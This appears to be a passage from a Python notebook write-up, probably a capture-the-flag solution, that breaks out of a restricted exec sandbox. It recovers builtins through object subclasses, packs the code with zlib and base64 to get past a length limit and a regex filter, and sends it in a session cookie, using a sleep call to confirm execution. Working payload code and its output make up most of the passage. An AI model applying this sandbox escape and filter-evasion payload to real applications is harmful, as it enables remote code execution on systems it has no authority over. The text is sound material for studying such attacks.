 For instance if we want to `import os;print os` into a restricted environment like the one we are dealing with we would call the just wrote procedure.


```python
print make_a_statement_for_exec_consistent_with_sandbox("""import os;print os""")
```

    exec("""import os;print os""",{'__builtins__':[c for c in ().__class__.__base__.__subclasses__() if 'cat' in c.__name__ ][0]()._module.__builtins__})


## Send cookies and check code execution

We now create a session cookie with a specific payload inside. The aim is to check if the application is executing the code we are sending.

Inside the payload we write an instruction to sleep in order to test if the application executes it.

Since we are dealing with constraints on length we use compression.

Following is a procedure that from a clear payload creates a statement that is intended to be executed by the restricted `exec` present in the application.


```python
def make_the_payload_using_base64_and_zlib(clear_pl):
    return """d='%cdecode'%46+'%c'%40;exec "a=%s"%'"{}"'+d+'"base64")'+d+'"zlib")';exec a#""".format(clear_pl.encode('zlib').encode('base64').replace('\n',''))
```


```python
code_to_sleep = """import time;time.sleep(5)"""
```

We see that the `code_to_sleep` includes a non-sandboxed code. Indeed we freely used the `import` statement.

We then make the code consistent with the sandbox using the ad-hoc procedure we created earlier.


```python
pl_sleep = make_a_statement_for_exec_consistent_with_sandbox(code_to_sleep)
print pl_sleep
```

    exec("""import time;time.sleep(5)""",{'__builtins__':[c for c in ().__class__.__base__.__subclasses__() if 'cat' in c.__name__ ][0]()._module.__builtins__})


Such payload is not sendable yet. We would get stopped by the regex control. We use the template and the encoding from the procedure we have written in the previous cells.


```python
print make_the_payload_using_base64_and_zlib(pl_sleep)
```

    d='%cdecode'%46+'%c'%40;exec "a=%s"%'"eJxNjc0KAyEMhF8leFGhSC+9tI+yLEHTLAT8WVaFwtJ3r+6pl2GYL5nhD5NRSknay9GgSeLXFFcj824edrDbqRFDl9gkV0T9XAi2cgCBZDDWIVL0dZDhgq98mdrDlfLIjQXZQJNver7QwNmncQfrcl9nQyrvHtn9z3ztDxD7NPU="'+d+'"base64")'+d+'"zlib")';exec a#
